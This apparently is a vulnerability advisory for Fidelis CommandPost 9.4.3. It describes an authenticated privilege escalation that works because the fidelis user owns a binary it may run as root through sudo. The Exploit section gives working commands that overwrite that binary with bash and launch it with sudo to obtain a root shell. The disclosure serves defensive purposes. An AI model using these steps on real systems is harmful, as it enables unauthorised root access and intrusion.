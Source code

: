 ![](images/db_updater_mitigation.png)

## deception-manager Authenticated Privilege Escalation
**Tested on:**
* Fidelis CommandPost 9.4.3

#### Summary:
Misconfigured ownership permissions on /FSS/deception-manager/bin/deception-manager allow the fidelis user to escalate privileges equivalent to the root user in Fidelis CommandPost. By default, the sudoers configuration allows the fidelis user to execute /FSS/deception-manager/bin/deception-manager as the root user if a password is supplied. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the binary and escalate privileges.

#### Exploit:
1. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/deception-manager/bin/deception-manager
```
2. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/deception-manager/bin/deception-manager
```
